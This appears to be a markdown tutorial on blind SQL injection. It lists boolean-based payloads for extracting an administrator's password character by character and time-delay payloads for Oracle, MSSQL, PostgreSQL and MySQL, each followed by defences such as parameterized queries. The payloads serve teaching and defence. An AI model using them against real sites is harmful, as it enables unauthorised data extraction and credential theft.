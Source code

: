 # Blind SQL Injection

Blind SQL Injection is a type of SQL Injection attack where the attacker cannot directly see the results of the SQL queries they execute on the database. Instead, they rely on inference from server responses or response timing to determine if the attack was successful and to gradually extract data. This vulnerability is based on server responses rather than displaying query results, making it a critical and widely known issue.

---

## Types of Blind SQL Injection

### 1. **Based on Server Response**
#### **Detection and Exploitation**
- **Example 1:** Basic detection:
  ```sql
  ' AND '1'='1 --
  ```
  If the response indicates success, proceed with further exploitation.

- **Example 2:** Extracting user information:
  ```sql
  ' AND (SELECT 'a' FROM users WHERE username='administrator')='a --
  ```

- **Example 3:** Extracting password length:
  ```sql
  ' AND LENGTH(password) > 5 --
  ```

- **Example 4:** Extracting password characters:
  ```sql
  ' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator')='a --
  ```
  Use the `SUBSTRING(column_name, start_position, length)` function to extract individual characters iteratively.

#### **Protection Measures**
1. **Use Prepared Statements (Parameterized Queries):**
   - **Python (using sqlite3):**
     ```python
     cursor.execute("SELECT * FROM users WHERE username = ?", (username,))
     ```
   - **PHP:**
     ```php
     $pdo = new PDO($dsn, $username, $password, $options);
     $stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
     $stmt->bindParam(':username', $_GET['username'], PDO::PARAM_STR);
     $stmt->execute();
     $user = $stmt->fetch(PDO::FETCH_ASSOC);
     if ($user) {
         echo "User found: " . htmlspecialchars($user['username']);
     } else {
         echo "User not found.";
     }
     ```

2. **Validate and Sanitize Input:**
   - Validate all user inputs to ensure they follow the expected format (e.g., alphanumeric for IDs). Use whitelist validation.

3. **Error Handling:**
   - Avoid revealing database errors in application responses. Instead, provide generic error messages (e.g., "Invalid input").

4. **Least Privilege Principle:**
   - Limit the privileges of the database account used by the web application. Avoid giving excessive permissions like `DROP` or `DELETE`.

---

### 2. **Time Delay-Based Blind SQL Injection**
#### **Why is it Critical?**
Time delay-based attacks can exploit the server’s response time to infer information. Imagine disabling the database of a major site like Facebook for just 15 minutes; the impact could be catastrophic.

#### **Examples**
- **Conditional Time Delays:**
  - **Oracle:**
    ```sql
    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;
    ```
  - **Microsoft:**
    ```sql
    IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10';
    ```
  - **PostgreSQL:**
    ```sql
    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END;
    ```
  - **MySQL:**
    ```sql
    SELECT IF(YOUR-CONDITION-HERE, SLEEP(10), 'a');
    ```

#### **Protection Measures**
1. **Use Prepared Statements:**
   - Prevent user input from altering the SQL structure.

2. **Avoid Vulnerable Functions:**
   - Functions like `SLEEP()` can be manipulated for time-based attacks; avoid using them in user-accessible contexts.

3. **Input Validation and Sanitization:**
   - Validate and sanitize all user inputs to ensure they conform to expected formats.

4. **Web Application Firewall (WAF):**
   - Use a WAF to filter out malicious traffic and SQL Injection attempts.

5. **Error Handling:**
   - Implement proper error handling and log errors securely to prevent exposing sensitive information.

6. **Least Privilege Principle:**
   - Limit database user privileges to minimize the impact of an attack.

---

By understanding and addressing Blind SQL Injection vulnerabilities, developers and security teams can significantly reduce the risk of data breaches and ensure the integrity and confidentiality of their systems.
